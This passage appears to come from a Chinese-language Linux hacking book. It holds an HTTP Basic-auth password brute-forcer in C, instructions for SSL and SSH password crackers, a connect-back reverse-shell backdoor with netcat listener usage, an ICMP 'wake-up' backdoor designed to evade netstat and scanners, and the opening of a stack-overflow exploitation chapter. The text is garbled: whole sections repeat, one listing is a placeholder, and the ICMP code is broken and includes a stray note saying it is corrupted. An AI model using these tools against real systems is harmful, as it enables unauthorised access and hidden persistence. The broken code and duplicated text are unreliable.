                table64[obuf[0]],
                table64[obuf[1]]);
            break;
        case 2: /* 读取了 2 字节 */
            sprintf(output, "%c%c%c=",
                table64[obuf[0]],
                table64[obuf[1]],
                table64[obuf[2]]);
            break;
        default:
            sprintf(output, "%c%c%c%c",
                table64[obuf[0]],
                table64[obuf[1]],
                table64[obuf[2]],
                table64[obuf[3]]);
        }
        output += 4;
        *output = 0;
    }
}

int main(int argc, char **argv) {
    FILE *fd1, *fd2;
    int sd, bytes;
    char buf1[250], buf2[250];
    char buf[250];
    char str1[270], str2[100];
    struct hostent *host;
    struct sockaddr_in servaddr;
    char rez[2000];
    char c[600];

    if (argc < 2 || argc > 3) {
        fprintf(stderr, "Usage: %s host[:port] [proxy][:port]\n\n", argv[0]);
        exit(-1);
    }

    if (argc == 3)
        token(argv[2]);
    else
        token(argv[1]);

    if ((host = gethostbyname(name)) == NULL) {
        error("gethostbyname failed");
        exit(-1);
    }

    bzero(&servaddr, sizeof(servaddr));
    servaddr.sin_family = AF_INET;
    servaddr.sin_port = htons(atoi(port_host));
    servaddr.sin_addr = *((struct in_addr *)host->h_addr);

    if ((fd1 = fopen(USER, "r")) == NULL) {
        error("fopen failed");
        exit(-1);
    }

    while (fgets(buf1, 250, fd1) != NULL) {
        buf1[strcspn(buf1, "\r\n\t")] = 0;
        if (strlen(buf1) == 0) continue;

        if ((fd2 = fopen(PASS, "r")) == NULL) {
            error("fopen failed");
            exit(-1);
        }

        while (fgets(buf2, 250, fd2) != NULL) {
            buf2[strcspn(buf2, "\r\n\t")] = 0;
            if (strlen(buf2) == 0) continue;

            sprintf(c, "%s:%s", buf1, buf2);
            base64Encode(c, rez);

            if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
                error("socket failed");
                exit(-1);
            }

            if (connect(sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
                error("connect failed");
                exit(-1);
            }

            if (argc == 2)
                sprintf(str1, "GET %s HTTP/1.1\r\n", CATALOG);
            else
                sprintf(str1, "GET http://%s%s HTTP/1.1\r\n", argv[1], CATALOG);

            sprintf(str2, "Host: %s\r\nAuthorization: Basic %s\r\n", argv[1], rez);
            send(sd, str1, strlen(str1), 0);
            send(sd, str2, strlen(str2), 0);
            bzero(buf, 250);
            bytes = recv(sd, buf, sizeof(buf) - 1, 0);
            buf[bytes] = 0;

            if (strstr(buf, "200 OK") != NULL) {
                printf("%s\n", buf);
                printf("%s\n", str1);
                printf("%s\n", str2);
                printf("Result OK: %s\n", c);
                printf("%s\n", buf);
            }
            close(sd);
        }
        fclose(fd2);
    }
    fclose(fd1);
    return 0;
}
```

### 10.2.2 SSL 密码破解器

SSL 协议用于在客户端和服务器之间建立安全连接。该协议用于加密 HTTP，产生安全的 HTTP (HTTPS)。HTTPS 服务通常通过 TCP 端口 443 提供。有多个 SSL 版本，以及类似的协议，如 RFC 2246 定义的传输层安全 (TLS) 协议。在编写本书时，有三种 SSL 版本：SSLv1、SSLv2，而 SSLv3 由于安全漏洞很少被使用。密码破解器可以使用 SSLv2 工作，但不同 SSL 版本的编程差异很小。破解登录和密码的源代码（名为 `brute_ssl`）可以在附带的光盘中找到。基础 HTTP 认证在程序中使用 OpenSSL 库；因此你的电脑上必须有该库。你可以在 `http://www.openssl.org` 获取该库；任何功能 Linux 发行版都包含了它。安装该库的过程非常简单，这里不再详细描述。支持 SSL 的程序必须包含 `openssl/ssl.h` 头文件；使用 `-lssl` 标志编译：

```bash
gcc brute_ssl.c -o brute_ssl -lssl
```

编写 SSL 客户端，你需要做的就是在程序中使用 OpenSSL 函数。第一步是初始化 OpenSSL 库：

```c
SSL_METHOD *method;
SSL_CTX *ctx;
SSL *ssl;

OpenSSL_add_algorithms(); /* 加载所有加密算法 */
SSL_load_error_strings(); /* 加载错误信息 */
method = SSLv2_method(); /* 创建客户端方法 */
ctx = SSL_CTX_new(method); /* 创建上下文 */
```

然后创建一个普通的 socket 并与服务器建立普通连接：

```c
if ((sd = socket(PF_INET, SOCK_STREAM, 0)) < 0) {
    perror("socket failed");
    exit(-1);
}

if (connect(sd, (struct sockaddr *)&servaddr, sizeof(servaddr)) == -1) {
    perror("connect failed");
    exit(-1);
}
```

建立普通连接后，创建一个 SSL 连接并绑定到普通连接：

```c
ssl = SSL_new(ctx); /* 创建 SSL 连接 */
SSL_set_fd(ssl, sd); /* 绑定 socket 文件描述符 */
if (SSL_connect(ssl) == -1) { /* 建立连接 */
    ERR_print_errors(stderr); /* 输出错误信息到 stderr 流 */
}
```

连接建立后，可以使用 `SSL_write()` 和 `SSL_read()` 函数交换数据，这类似于调用 `recv()` 和 `send()` 函数：

```c
int bytes;
bytes = SSL_write(ssl, str, strlen(str)); /* 加密并发送 */
bytes = SSL_read(ssl, buf, sizeof(buf)); /* 接收并解密 */
```

### 10.2.3 SSH 密码破解器

SSH 协议是 `telnet` 和 `rlogin` 等协议的安全替代。SSH 为客户端和服务器之间的连接提供了良好的防窃保护，但无法防止密码破解。破解 SSH 登录和密码的源代码（名为 `brute_ssh.c`）可以在附带的光盘中找到。你需要在电脑上安装 `libssh` 库来编译此程序。该库可以通过 `http://github.com/libssh/libssh-0.11.tgz` 获取。通过执行以下命令序列进行安装：

```bash
tar zxf libssh-0.11.tgz
cd libssh-0.11
./configure
make
make install
```

安装后，将程序的主模块拷贝到服务器的 `/usr/lib` 目录；否则编译后的程序将无法工作。执行以下命令：

```bash
cp /usr/local/lib/libssh.so /usr/lib
```

支持 SSH 的程序必须包含 `libssh/libssh.h` 头文件；使用 `-lssh` 标志编译：

```bash
gcc brute_ssh2.c -o brute_ssh2 -lssh
```

该程序只适用于 SSHv2，因为 SSHv1 有安全漏洞且很少被使用。在编写本手册时，SSHv2 是高版本。编写 SSH 客户端，你需要做的只是使用 `libssh` 库中的函数。所有函数都在库存档中的 `API.html` 文件中描述。

首先，必须安装选项：

```c
char login[250];
```

接下来，与 SSH 服务器建立连接：

```c
if ((ssh_session = ssh_connect(ssh_opt)) == NULL) {
    fprintf(stderr, "Connection failed: %s\n", ssh_get_error(ssh_session));
}
```


## 第 11 章：木马与后门

通过带有 `-l`（监听模式）和 `-p`（端口号）选项运行该程序来进入监听模式：

```bash
# nc -l -p 5555
```

上述命令使 `netcat` 工具监听 5555 端口。创建的后门可以通过在另一个终端窗口中启动它来在本地机器上进行测试：

```bash
# conback 127.0.0.1 5555
```

后门将连接到 5555 端口，这将允许之前启动的 `netcat` 工具执行命令：

```bash
# nc -l -p 5555
ls -l;
total 32
-rw-xr--x 1 root root 1325 Jul 24 05:45 bd_icmp.c
-rw-xr-xr- 1 root root 14762 Jul 24 07:06 bindshell
-rw------ 1 root root 677 Jul 24 04:27 bindshell
-rw------- 1 root root 678 Jul 24 04:31 conback.c
-rw------- 1 root root 2389 Jul 24 05:41 icmsend.c
```

### 列表 11.3. 连接回后门 (conback.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    int sd;
    struct sockaddr_in serv_addr;
    if (argc != 3) {
        printf("Usage: %s <ip> <port>\n", argv[0]);
        exit(-1);
    }

    daemon(1, 0);
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = inet_addr(argv[1]);
    serv_addr.sin_port = htons(atoi(argv[2]));
    sd = socket(AF_INET, SOCK_STREAM, 0);
    if (connect(sd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("connect failed");
        dup2(sd, 0);
        dup2(sd, 1);
        dup2(sd, 2);
        execl("/bin/sh", "sh", 0);
    }
}
```

### 11.2.3. 唤醒后门


## 第11章：木马与后门

通过带有 `-l`（监听模式）和 `-p`（端口号）选项运行程序来进入监听模式：

```
# nc -l -p 5555
```

上一个命令使 `netcat` 工具监听 5555 端口。创建的后门可以通过在另一个终端窗口中启动它来在本地机器上进行测试：

```
# conback 127.0.0.1 5555
```

后门将连接到 5555 端口，这将允许之前启动的 `netcat` 工具执行命令：

```
# nc -l -p 5555
ls -l;
total 32
-rw-xr--x 1 root root 1325 Jul 24 05:45 bd_icmp.c
-rw-xr-xr- 1 root root 14762 Jul 24 07:06 bindshell
-rw------ 1 root root 677 Jul 24 04:27 bindshell
-rw------- 1 root root 678 Jul 24 04:31 conback.c
-rw------- 1 root root 2389 Jul 24 05:41 icmsend.c
```

### 列表 11.3. 连接回后门 (conback.c)

```c
// 此处为原文代码块，保持不变
```

### 11.2.3. 唤醒后门

唤醒后门不会被 `netstat` 工具或扫描器检测。这是因为 ICMP 不使用网络端口，任何 ICMP 消息都由 IP 子系统处理。在唤醒后门启动后，它会创建一个 ICMP 原始套接字并等待一个特殊的 ICMP 包（称为唤醒包），而不打开端口。当它接收到唤醒包时，后门会创建一个 TCP 或 UDP 套接字，并在包指定的端口上监听传入的消息。在接收消息并关闭会话后，端口将被关闭，后门对扫描器和 `netstat` 工具变得不可见。因为后门创建了原始套接字，与其他后门不同，它需要 root 权限才能运行。

本质上，唤醒后门是一个添加了特殊唤醒机制的绑定 shell 或连接回后门。因此我可以轻松将其修改为连接回后门（列表 11.4）。要发送唤醒包，使用了 `impsend` 工具（列表 11.5）。为了唤醒，唤醒后门使用带有 `-p` 选项的 `ping` 工具，该选项允许发送数据。你可以在 `http://blackhat.ru/archive.tar.bz` 找到许多后门的源代码。

考虑列表 11.4 中的后门。为了接收 ICMP 包，程序使用 `malloc()` 函数准备一个大小等于 IP 和 ICMP 头部的堆缓冲区。然后启动一个无尽循环，在循环中创建一个用于接收 ICMP 包的套接字，直到标识符字段（`icmp_id`）的值变为 `0xABCD`。基本上，这个值就是唤醒后门的触发条件。你可以选择另一个值。一旦带有该值的包到达，嵌套循环将使用 `fork()` 终止并产生一个子进程。在子进程中执行的操作类似于第 11.2.1 节中考虑的操作，唯一的区别是端口号是从接收到的 ICMP 包的序列字段（`icmp_seq`）中获取的。子进程关闭原始套接字并调用 `waitpid()` 函数以正确终止子进程，避免创建僵尸进程。

### 列表 11.4. 唤醒后门 (bd_icmp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <unistd.h>
#include <signal.h>

struct ipacket {
    struct iphdr ip;
    struct icmp icmp;
} *packet;

int isock, sd, cli, int pid;
struct sockaddr_in servaddr;

daemon(0, 0);
packet = (struct ipacket *) malloc(sizeof(struct iphdr) + sizeof(struct icmp));
signal(SIGCHLD, SIG_IGN);

while (1) {
    if (isock = socket(AF_INET, SOCK_STREAM, IP__MP) < 0) {
        perror("isock failed");
        exit(-1);
    }
    while (packet->icmp_id != 0xABCD) {
        sd = socket(AF_INET, SOCK_STREAM, IP__MP); // Wait, the code in the prompt is corrupted/cut off.
    }
}
```


## 第11章：木马与后门

通过带有 `-l`（监听模式）和 `-p`（端口号）选项运行程序来进入监听模式：

```
# nc -l -p 5555
```

上一个命令使 `netcat` 工具监听 5555 端口。创建的后门可以通过在另一个终端窗口中启动它来在本地机器上进行测试：

```
# conback 127.0.0.1 5555
```

后门将连接到 5555 端口，这将允许之前启动的 `netcat` 工具执行命令：

```
# nc -l -p 5555
ls -l;
total 32
-rw-xr--x 1 root root 1325 Jul 24 05:45 bd_icmp.c
-rw-xr-xr- 1 root root 14762 Jul 24 07:06 bindshell
-rw------ 1 root root 677 Jul 24 04:27 bindshell
-rw------- 1 root root 678 Jul 24 04:31 conback.c
-rw------- 1 root root 2389 Jul 24 05:41 icmsend.c
```

### 列表 11.3. 连接回后门 (conback.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <unistd.h>

int main(int argc, char *argv[]) {
    int sd;
    struct sockaddr_in serv_addr;
    if (argc != 3) {
        printf("Usage: %s <ip> <port>\n", argv[0]);
        exit(-1);
    }

    daemon(1, 0);
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_addr.s_addr = inet_addr(argv[1]);
    serv_addr.sin_port = htons(atoi(argv[2]));
    sd = socket(AF_INET, SOCK_STREAM, 0);
    if (connect(sd, (struct sockaddr*)&serv_addr, sizeof(serv_addr)) < 0) {
        perror("connect failed");
        dup2(sd, 0);
        dup2(sd, 1);
        dup2(sd, 2);
        execl("/bin/sh", "sh", 0);
    }
}
```

### 11.2.3. 唤醒后门

唤醒后门不会被 `netstat` 工具或扫描器检测。这是因为 ICMP 不使用网络端口，任何 ICMP 消息都由 IP 子系统处理。在唤醒后门启动后，它会创建一个 ICMP 原始套接字（raw socket）并等待一个特殊的 ICMP 包（称为唤醒包），而不打开端口。当它接收到唤醒包时，后门会创建一个 TCP 或 UDP 套接字，并在包指定的端口上监听传入的消息。在接收消息并关闭会话后，端口将被关闭，后门对扫描器和 `netstat` 工具变得不可见。因为后门创建了原始套接字，与其他后门不同，它需要 root 权限才能运行。

本质上，唤醒后门是一个添加了特殊唤醒机制的绑定 shell（bind shell）或连接回后门。因此我可以轻松将其修改为连接回后门（列表 11.4）。要发送唤醒包，使用了 `impsend` 工具（列表 11.5）。为了唤醒，唤醒后门使用带有 `-p` 选项的 `ping` 工具，该选项允许发送数据。你可以在 `http://blackhat.ru/archive.tar.bz` 找到许多后门的源代码。

考虑列表 11.4 中的后门。为了接收 ICMP 包，程序使用 `malloc()` 函数准备一个大小等于 IP 和 ICMP 头部部的堆缓冲区。然后启动一个无尽循环，在循环中创建一个用于接收 ICMP 包的套接字，直到标识符字段（`icmp_id`）的值变为 `0xABCD`。基本上，这个值就是唤醒后门的触发条件。你可以选择另一个值。一旦带有该值的包到达，嵌套循环将使用 `fork()` 终止并产生一个子进程。在子进程中执行的操作类似于第 11.2.1 节中考虑的操作，唯一的区别是端口号是从接收到的 ICMP 包的序列字段（`icmp_seq`）中获取的。子进程关闭原始套接字并调用 `waitpid()` 函数以正确终止子进程，避免创建僵尸进程。

### 列表 11.4. 唤醒后门 (bd_icmp.c)

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <netinet/ip_icmp.h>
#include <unistd.h>
#include <signal.h>

struct ipacket {
    struct iphdr ip;
    struct icmp icmp;
} *packet;

int isock, sd, cli, int pid;
struct sockaddr_in servaddr;

daemon(0, 0);
packet = (struct ipacket *) malloc(sizeof(struct iphdr) + sizeof(struct icmp));
signal(SIGCHLD, SIG_IGN);

while (1) {
    if (isock = socket(AF_INET, SOCK_STREAM, IP__MP) < 0) {
        perror("isock failed");
        exit(-1);
    }
    while (packet->icmp_id != 0xABCD) {
        sd = socket(AF_INET, SOCK_STREAM, IP__MP); // Wait, the code in the prompt is corrupted/cut off.
    }
}
```

本章未考虑 UDP 后门。通常，后门由服务器部分和客户端部分组成，因为没有客户端部分，很难与 UDP 后门建立通信。对于对后门客户端与服务器部分之间的流量进行加密的问题也未考虑在内。加密用于从嗅探器和入侵检测系统中隐藏后门，通常使用如异或 XOR 等简单算法实现，尽管也可以使用更复杂的算法：如 Blowfish、IDEA、XTEA 等。加密还要求后门必须具备客户端和服务器部分。有时，后门会配备身份验证功能，使得只有其所有者可以使用。本章同样没有考虑在后门中实现身份验证。如果你仔细阅读并理解了所介绍的所有材料，你应该有足够的知识来自己实现所有这些功能。

隐藏后门的技术将在第 21 章中讨论，该章节将介绍 rootkit 编程。

本节中所有程序的源代码可以在附带的 CD-ROM 的 `/PART II/Chapter 11` 目录中找到。

## 第三部分：漏洞利用


## 第12章：通用信息


毫无疑问，漏洞利用是黑客最强大且应用最广泛的武器。能够发现漏洞并编写利用程序的黑客属于黑客精英。这不仅仅是空话，因为编写漏洞利用程序需要对操作系统、C 语言、汇编语言以及其他计算机技术深入了解。达到顶峰需要时间和努力，你必须从某个地方、某个时刻开始。向黑客世界的顶端努力取决于你自己，但当你决定准备就绪时，本章的材料将是一个很好的起点。

### 12.1. 术语与定义

漏洞利用（Exploit）是一种利用软件漏洞来执行外部代码（通常是恶意代码）的程序。在黑客圈中，经常使用该词的缩写，例如 exploit 或 exp。

所有漏洞利用分为大类：本地漏洞利用和远程漏洞利用，它们在实现方式上有很大区别。本地漏洞利用旨在利用本地机器上的错误，而远程漏洞利用则通过网络利用远程机器上的错误。

本书考虑了最常用且最困难的本地和远程漏洞利用类型：shellcode 利用，它在被攻破的系统上启动一个命令 shell（通常情况下，在 Linux 中为 `/bin/sh`）。除了启动命令 shell 外，漏洞利用还可以执行其他操作；例如，它可以修改防火墙规则。这类漏洞利用的核心部分是 shellcode，有时称为漏洞利用负载（payload）。shellcode 是引入受影响程序内存中并启动系统 shell 的机器码。然而，并非所有的漏洞利用都依赖于零日漏洞（zero-day）来启动 shell。例如，某些漏洞利用（DoS 利用）仅用于让被攻击系统崩溃。本质上，DoS 利用是执行 DoS 攻击的工具，已经在第 6 章中讨论过。

漏洞利用的具体细节取决于编写程序使用的编程语言。每种编程语言都有其特定的漏洞。例如，Perl 和 PHP 程序容易受到所谓的 NULL 漏洞，而 C/C++ 程序则不会。还存在影响许多编程语言的错误，例如数组索引错误。

由于书中的漏洞利用是用 C 语言编写的，因此它们利用的是 C 语言固有的错误，如栈溢出、堆溢出、缓冲区溢出或字符串错误。然而，有时可以编写漏洞利用（例如用 Perl 编写）来利用 C 程序中的错误。

通常，你会发现黑客在谈论零日利用、私有利用、伪利用、PoC 以及 autorooter 或 rootmaster，这些术语的含义如下：

- **零日利用（zero-day exploit）**：针对新漏洞的利用，该漏洞尚未开发补丁，也没有发布修复版本。通常，当漏洞出现时，受影响软件的开发者会发布补丁或修复了漏洞的新软件版本。这使得该利用起初失效，只有一小部分黑客知道零日利用，但随着时间的推移，其货币价值使其成为最受青睐的利用，尤其是在脚本小子（script kiddies）中。
- **私有利用（Private exploits）**：正如其名，是创建者的私有知识。通常，作者会随时间制作一个私有的零日利用，或者通过意外泄露。私有利用对脚本小子等人来说和零日利用一样具有吸引力。
- **伪利用（Fake exploits）**：模仿利用程序但实际上并非利用程序的程序。例如，伪利用是伪装成利用程序的木马。在这样的“利用”启动后，它会在受害者机器上安装后门，并在事件后向创建者发送电子邮件。通常，伪利用会被那些鲁莽运行任何程序的脚本小子检测到。有整个群体交易伪利用，并将其伪装成零日利用。由于管理员也会使用利用程序来测试他们的系统或向客户提供建议，因此在使用之前会仔细检查利用代码。检查利用程序的一种方法是将 shellcode 的十六进制代码转换为相应的等效字符，伪利用的 shellcode 中通常包含破坏性命令。
- **PoC（概念证明）**：被安全专业人员用于演示漏洞。
- **autorooter**：一个提供 root 权限的简易工具。

### 12.2. 进程内存结构

为了能够开发漏洞利用，你必须了解操作系统的特性。由于本书只考虑 Linux 漏洞利用，请回顾该操作系统的特性。

存储在磁盘上的程序与其加载到内存中的映像不同。在内存中执行的程序是进程。进程可以在两种模式下运行：内核态和用户态。在用户态，进程执行非特权处理器安全级别允许的指令。当进程需要内核服务时，它发起系统调用，在特权处理器安全级别上执行内核指令。通过这种方式，内核保护其访问空间免受应用程序的影响，应用程序可能会破坏内核数据结构的完整性并导致操作系统崩溃。因此，进程的映像由两部分组成：内核态和用户态。

| | |
|---|---|
| 内核虚拟地址空间 (1 GB) | 0xFFFFFFFF |
| 进程虚拟地址空间 (3 GB) | 0xC0000000 |
| | 0x00000000 |

图 12.1. 进程虚拟地址空间的内核态和用户态

| | |
|---|---|
| 环境变量字符串 | 高地址 0xC0000000 |
| argv 字符串 | |
| env 指针 | |
| argv 指针 | |
| argc 参数 | |
| 栈 (Stack) | |
| ↑ | |
| 堆 (Heap) | |
| bss | |
| 数据 (data) | |
| 代码 (text) | |
| 共享库 | 低地址 0x08000000 |

图 12.2. 进程的用户态虚拟内存

段按照以下顺序从地址 `0xC0000000` 开始加载到虚拟内存中：

1. 外部变量，例如作用域环境变量字符串（程序名称和路径、主目录、邮箱箱名称、终端名称等）、命令行参数 (`argv`)、环境变量指针 (`env pointers`)、命令行指针 (`argv pointers`) 以及 `argc` 参数。
2. 栈段（stack segment），用于临时存储变量。
3. 堆段（heap segment），供应用程序分配所需的内存并管理其大小，即执行动态内存分配。
4. `.bss` 段，包含未初始化的数据。
5. `.data` 段，包含已初始化的数据。
6. `.text` 段，也称为代码段，包含程序的指令；该段是只读的。
7. 共享库段。

漏洞开发人员必须精确了解程序中声明定义的变量被放置在哪些内存段中。这取决于变量的类型。C 语言具有以下类型：

- **全局变量**：其作用域涵盖整个程序。
- **局部变量**：其作用域局限于定义的函数内部。
- **自动变量**：仅在声明它们的程序过程运行期间存在的局部变量。当过程结束时，过程局部变量的值不会被保留，分配给这些变量的内存会被释放。
- **静态变量**：在普通声明之前使用 `static` 关键字声明的变量。局部和全局变量都可以声明为静态。与自动变量不同，局部静态变量在程序运行期间一直存在。静态变量的作用域局限于文件末尾。
- **指针**：存储内存地址的特殊变量，实际数据存储在这些地址处。x86 架构采用 32 位寻址系统；因此，指针始终是一个 32 位整数内存。

所有全局和静态变量如果已初始化，则位于 `.data` 段；如果未初始化，则位于 `.bss` 段。

自动变量存储在栈上。

当声明指针时，它存储在 `.bss` 段或栈上，其值是不确定的。当进程在堆中分配内存（例如使用 `malloc()` 函数）时，内存空间第一个字节的地址（也是 32 位数）被放入指针中。

列表 12.1 显示的程序演示了在内存中存储变量。

### 列表 12.1. 在内存中存储 int

```c
#include <stdio.h>
#include <stdlib.h>

int var; // 在 BSS 中
char str; // 在 BSS 中
int x = 11; // 在 Data 中
static int y = 222; // 在 Data 中
char buffer1[66]; // BSS 中的一个缓冲区
char mes1[] = "abcdef"; // 在 Data 中

void f(int a, char *b) // 在栈中
    char pr // 在栈中
    int num = 333; // 在栈中
    static int count = 444; // 在 Data 中
    char buffer2[777]; // 栈中的一个缓冲区
    char mes2[] = "zyxaw"; // 在栈中
    char *str = malloc(1000*sizeof(char)); // 堆中的一个缓冲区
    strncpy(str, "abcdef", 5); // 向堆中的缓冲区写入数据
    strncpy(buffer1, "Skiyaroff", 9); // 向 BSS 中的缓冲区写入数据
    strncpy(buffer2, "Ivan", 4); // 向栈中的缓冲区写入数据
}

int main() {
    f(1, "string");
    return 0;
}
```

该程序在 GDB 中的加载方式如下：

```
# gcc sections.c sections -g
# gdb list
(gdb) list
19 str = malloc(1000*sizeof(char));
20 strncpy(str, "abcdef", 5);
21 strncpy(buffer1, "Skiyaroff", 9);
22 strncpy(buffer2, "Ivan", 4);
23 }
25 int main() {
26 {
27 f(1, "string");
```

以下是在 `f()` 函数末尾设置断点并运行程序：

```
(gdb) break 23
Breakpoint 1 at 0x804851c: sections.c, line 23.
(gdb) run
Starting program: sections
Breakpoint 1, 0x804851c in f () at sections.c:23
23 strncpy(buffer2, "Ivan", 4);
(gdb) print var
$1 = 0
(gdb) print str
$2 = "abcdef"
(gdb) print x
$3 = 11
(gdb) print y
$4 = 222
(gdb) print buffer1
$5 = "Skiyaroff"
(gdb) print buffer2
$6 = "Ivan"
(gdb) print count
$7 = 444
(gdb) print mes2
$8 = "zyxaw"
(gdb) print str
$9 = (char *) 0x805a0a0 "abcdef"
```

### 缓冲区溢出


# 缓冲区溢出概述

当程序向缓冲区写入的数据超过其分配容量时，就会发生缓冲区溢出。这些额外数据会覆盖相邻内存，导致程序崩溃、数据损坏或执行恶意代码。最常见的缓冲区溢出类型是栈溢出，攻击者可以通过覆盖栈上的返回地址来重定向程序的执行流。

## 变量类型

- **全局变量**：其作用域涵盖整个程序。
- **局部变量**：其作用域局限于定义的函数内部。
- **自动变量**：仅在声明它们的程序过程运行期间存在的局部变量。当过程结束时，过程局部变量的值不会被保留，分配给这些变量的内存会被释放。
- **静态变量**：在普通声明之前使用 `static` 关键字声明的变量。局部和全局变量都可以声明为静态。与自动变量不同，局部静态变量在程序运行期间一直存在。静态变量的作用域局限于文件末尾。
- **指针**：存储内存地址的特殊变量，实际数据存储在这些地址处。x86 架构采用 32 位寻址系统；因此，指针始终是一个 32 位整数内存。

# 第12 章：通用信息

## 表 12.1 Intel 语法与 AT&T 语法对比

| Intel 语法 | AT&T 语法 |
| --- | --- |
| 使用指示符指示操作数大小： | 使用指令后缀指示操作数大小： |
| `byte ptr` — 字节 (`mov byte ptr variable, 1`) | `b` — 字节 — `movb $1, variable` |
| `word ptr` — 字 (`mov word ptr variable, 100`) | `w` — 字 — `movw $100, variable` |
| `dword ptr` — 双字 (`push dword ptr variable`) | `l` — 双字 — `pushl variable` |
| 基寄存器在方括号中指定： | 基寄存器在括号中指定： |
| `lea edi, [ebx + variable]` | `lea 0xffffff(%ebx), %edi` |
| 间接寻址的格式如下： | 间接寻址的格式如下： |
| `segreg:[base + index*scale + disp]` | `%seg:disp (base, index, scale)` |
| `mov eax, base[ebx + edi*4]` | `movl add(%ebx, %edi, 4), %eax` |

## 12.6. 漏洞利用措施

针对缓冲区溢出和格式化字符串漏洞，已经开发了许多防御措施。例如，`StackGuard`、`StackShield`、`ProPolice`、`Openwall (OWL)` 和 `Libsafe` 等系统可以保护栈缓冲区溢出。`PointGuard` 工具防止覆盖 `.bss` 段中的函数指针。`FormatGuard` 工具防止字符串漏洞。堆保护实用程序则防止缓冲区溢出。

本书中没有考虑绕过这些防御的方法，因为每种防御都需要特定的方法；此外，黑客社区也尚未找到绕过其中许多防御的方法。在实践中，Linux 发行版默认会安装某一种或另一种类型的防御措施。因此，本部分中描述的许多示例（包括漏洞利用代码/exploits）可能无法在你的系统上运行。为了能够练习编写利用的技能，你应该从安装中删除所有防御，或者使用不带防御的 Linux 发行版。旧版本的 Linux 版本可以用于后一种方法。例如，我的 Red Hat 7.1 没有防御，书中考虑的所有示例在它下都运行得完全没有问题。

# 第13 章：本地利用

## 13.1. 栈缓冲区溢出

栈缓冲区溢出漏洞最早用于 1988 年臭名昭著的 Morris 虫。但基于栈缓冲区溢出错误的漏洞利用的真正爆发，始于 Aleph One 在 Phrack 杂志上发表的著名的 *“Smashing the Stack for Fun and Profit”*（第49 期，第14 篇文章）。本节的内容在许多方面都基于该文章。

### 13.1.1. 栈帧

要理解栈溢出的机制，你必须理解栈本身的操作机制。

栈按照后进先出（LIFO）原则运行；最后放入栈的元素是第一个被取出的。在栈上放置值的操作称为**推入**（pushing）。相应地，执行这些操作的汇编指令称为 `push` 和 `pop`。

栈顶的增长是从高内存地址向低内存地址的（图 12.2）。该地址存储在 `ESP` 寄存器中，并随着值推入栈和从栈中弹出而不断变化。当函数被调用时，会将一组被称为**栈帧**（stack frame）的数据推入栈中。当前栈帧中的数据通过 `EBP` 寄存器访问。栈帧包含传递给函数的参数、其局部变量，以及两个返回函数调用之前状态的指针：栈帧指针（SFP）和返回地址。

需要 SFP 来恢复 `EBP` 寄存器的旧值，而需要返回地址来恢复函数调用后必须执行的命令在 `EIP` 寄存器中的值。你应该记得，要执行的下一条指令的地址始终存储在 `EIP` 寄存器中。

#### 栈帧的形成

列表 13.1 形成栈帧

```c
void test_func(int A, int B, int C, int D)
{
    char foo;
    int boo;
    char buffer[100];
}
int main()
{
    test_func(10, 20, 30, 40);
}
```

当调用 `test_func()` 时，栈中会形成一个栈帧，如图 13.1 所示。

首先，函数参数被推入栈（按此顺序：40, 30, 20, 10），然后是返回地址，然后是当前的 `EBP` 值（即 SFP），最后是函数的局部变量（foo, boo, buffer）。函数的参数将通过减小 `EBP` 寄存器来引用，而局部变量将通过增加其值来引用。

**图 13.1. 栈帧**

| 高地址（栈底） |
| --- |
| D |
| C |
| B |
| A |
| 返回地址 |
| 栈帧指针 |
| foo |
| boo |
| buffer |
| 低地址（栈顶） |

当程序启动时，栈只包含一个帧：`main()` 帧。当函数被调用时，栈上会创建一个新帧。当函数返回时，该帧被销毁。

栈向下增长，这意味着它从高内存地址向低内存地址移动。这就是为什么 `ESP`（栈指针）寄存器在数据推入时会减小。`EBP`（基指针）通常指向当前栈帧的基址，为局部变量提供一个稳定的参考点。


## 第 13 章：本地漏洞

首先，函数参数被推入栈（按此顺序：40, 30, 20, 10），然后是返回地址，然后是当前的 `EBP` 值（即 `SFP`），最后是函数的局部变量（`foo`, `boo`, `buffer`）。函数的参数将通过减小 `EBP` 寄存器来引用，而局部变量将通过增加其值来引用。

### 图 13.1. 栈帧

| 高地址（栈底） |
| :--- |
| D |
| C |
| B |
| A |
| 返回地址 |
| 栈帧指针 |
| foo |
| boo |
| buffer |
| 低地址（栈顶） |

当程序启动时，栈只包含一个帧：`main()` 帧。当函数被调用时，栈上会创建一个新帧。当函数返回时，该帧被销毁。

栈向下增长，这意味着它从高内存地址向低内存地址移动。这就是为什么 `ESP`（栈指针）寄存器在数据推入时会减小。`EBP`（基指针）通常指向当前栈帧的基址，为局部变量提供一个稳定的参考点。当函数被调用时，一组被称为栈帧的数据被推入栈中。当前栈帧中的数据通过 `EBP` 寄存器访问。栈帧包含传递给函数的参数、其局部变量，以及两个返回函数调用之前状态的指针：栈帧指针（`SFP`）和返回地址。

需要 `SFP` 来恢复 `EBP` 寄存器的旧值，而需要返回地址来恢复函数调用后必须执行的命令在 `EIP` 寄存器中的值。你应该记得，要执行的下一条指令的地址始终存储在 `EIP` 寄存器中。

### 列表 13.1 形成栈帧

```c
void test_func(int A, int B, int C, int D)
{
    char foo;
    int boo;
    char buffer[100];
}
int main()
{
    test_func(10, 20, 30, 40);
}
```

当调用 `test_func()` 时，栈中会形成一个栈帧，如图 13.1 所示。

栈缓冲区溢出漏洞的真正爆发，始于 Aleph One 在 Phrack 杂志上发表的著名的 *“Smashing the Stack for Fun and Profit”*（第 49 期，第 14 篇文章）。

## 13.1.2 漏洞程序

缓冲区溢出漏洞发生在程序向缓冲区写入比其能容纳更多的数据时。

### 列表 13.2 漏洞程序示例

```c
#include <stdio.h>
#include <string.h>

void func(char *str) {
    char buf[100];
    strcpy(buf, str);
}

int main(int argc, char *argv[]) {
